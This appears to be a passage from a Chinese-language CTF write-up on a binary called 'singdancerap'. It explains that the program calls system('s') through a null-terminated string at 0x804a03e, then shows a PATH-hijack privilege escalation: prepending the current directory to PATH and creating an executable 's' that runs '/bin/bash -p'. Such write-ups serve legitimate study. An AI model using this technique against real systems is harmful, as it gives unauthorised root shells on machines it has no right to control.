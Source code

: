 那就只能查找现有的字符串了

![](./images/image-204.png)

![](./images/image-205.png)

在**C**语言中，如果是以字符串地址作为参数的话，那么函数会按照字节逐个读取，直到遇到 `\0` 才停止

而在上面可以看到的是在**0x804a03e**这个位置，也就是**s**的地址，后面刚好有一个**\\x00**

有了这个合法的字符串，接下来要做的就是体现在**linux**里面，因为实际上函数内执行的是**system("s")**

那么如果存在有一个**s**的二进制文件，而里面刚好有提权部分的代码，就可以执行命令

在本地调试一下

```
[root@kali] /home/kali/singdancerap  
❯ export PATH=.:$PATH   #设置当前目录优先

[root@kali] /home/kali/singdancerap  
❯ cat s            
/bin/bash -p

[root@kali] /home/kali/singdancerap  
❯ chmod +x s
```
